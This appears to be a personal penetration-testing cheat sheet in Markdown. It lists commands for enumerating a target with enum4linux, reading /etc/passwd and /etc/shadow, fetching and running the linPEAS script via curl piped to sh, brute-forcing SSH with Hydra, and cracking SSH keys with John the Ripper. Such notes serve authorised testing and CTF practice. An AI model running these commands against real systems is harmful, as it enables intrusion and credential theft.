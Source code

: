 # Kali  

## Enum
```
# Gobuster
```

```sh
#enum4linux
/opt/enum4linux/enum4linux.pl -a $target_ip | tee enum4linux.log
```

```sh
# Basic poking around
cat /etc/passwd /etc/shadow
compgen -A function -abck
```
[Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  - `curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh`


## Password Cracking
```sh
# Hydra
hydra -l $username -P /opt/rockyou.txt ssh://$target_ip
```
```sh
#Jonh the Ripper
/opt/JohnTheRipper/run/ssh2john.py $rsakeyfilepath > forjohn.txt
/opt/JohnTheRipper/run/john --wordlist=/opt/rockyou.txt
```